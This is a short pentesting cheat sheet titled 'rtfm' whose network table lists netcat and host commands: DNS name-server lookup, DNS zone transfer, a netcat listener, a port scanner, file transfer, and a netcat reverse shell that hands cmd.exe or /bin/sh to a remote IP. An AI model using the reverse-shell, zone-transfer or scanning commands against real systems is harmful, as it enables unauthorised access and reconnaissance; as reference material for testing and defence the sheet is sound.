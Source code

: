 # rtfm

## network

<table>
	<tr>
		<th>command</th>
		<th>description</th>
	</tr>
	<tr>
		<td>host -t ns <i>domain</td>
		<td>ask the name servers for a domain</td>
	</tr>
	<tr>
		<td>host -l <i>domain nameServer</td>
		<td>dns zone transfer</td>
	</tr>
	<tr>
		<td>nc <i>ip port</i> -e <i>shell</td>
		<td>start reverse shell: cmd.exe, /bin/sh</td>
	</tr>
	<tr>
		<td>nc -l -p <i>port</td>
		<td>start listener</td>
	</tr>
	<tr>
		<td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
		<td>tcp port scanner</td> 
	</tr>
	  <tr>
		<td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
		<td>file transfers</td>
	</tr>
</table>
